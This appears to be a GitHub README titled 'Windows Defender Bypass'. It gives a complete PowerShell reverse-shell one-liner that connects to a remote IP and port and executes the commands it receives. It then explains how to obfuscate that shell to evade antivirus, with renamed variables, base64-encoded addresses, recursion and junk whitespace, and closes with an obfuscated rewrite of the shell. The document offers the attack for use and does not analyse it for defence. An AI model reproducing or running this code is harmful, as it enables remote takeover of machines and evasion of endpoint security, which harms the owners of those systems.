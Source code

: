 # Windows Defender Bypass
To bypass windows defender we will use a technique called obfuscation. 
For example we have a simple code in Powershell that creates a reverse shell:
```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.0",9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

To obfuscate this code we would use a combination of techniques such as:

- Replacing human-readable variable names with random or difficult-to-understand names: $stream would become something like $x, $bytes would become $y, and so on.

- Encrypting the IP address and port number using a simple encryption algorithm or base64 encoding, so that it is not immediately recognizable.

- Using complex or nested statements and functions to make the code more difficult to follow and understand. For example, instead of using the while loop as is, I could replace it with a recursive function that calls itself until the stream is closed.

- Inserting comments or whitespace in random places throughout the code to break up the logical flow and make it harder to read.

Here is an example of how the code could be obfuscated using these techniques:

### Randomly generated variable names
```$x = New-Object System.Net.Sockets.TCPClient("10.0.0.0",9001);
$y = $x.GetStream();
[byte[]]$z = 0..65535|%{0};
```

### Recursive function to handle stream data
```
function recurse($stream) {
	if(($i = $stream.Read($z, 0, $z.Length)) -ne 0){
		$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($z,0, $i);
		$sendback = (iex $data 2>&1 | Out-String );
		$sendback2 = $sendback + "PS " + (pwd).Path + "> ";
		$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
		$stream.Write($sendbyte,0,$sendbyte.Length);
		$stream.Flush();
		recurse($stream); # Recursive call
	}
}
```

### Call the recursive function to handle the stream
```
recurse($y);
$x.Close();
```